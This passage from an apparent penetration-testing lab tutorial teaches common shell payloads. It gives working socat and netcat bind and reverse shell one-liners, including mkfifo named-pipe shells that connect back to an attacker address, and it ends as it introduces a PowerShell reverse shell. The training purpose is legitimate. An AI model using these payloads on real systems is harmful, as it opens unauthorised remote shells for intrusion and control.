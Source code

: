 2. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener? `socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
    

## Common Shell Payloads

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

---

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

`nc -lvnp <PORT> -e /bin/bash`

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

> *The command first creates a* [*named pipe*](https://www.linuxjournal.com/article/2156) *at* `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

![](https://i.imgur.com/se5Fyn3.png align="left")

A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![](https://i.imgur.com/Xf0hA5p.png align="left")

---

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.
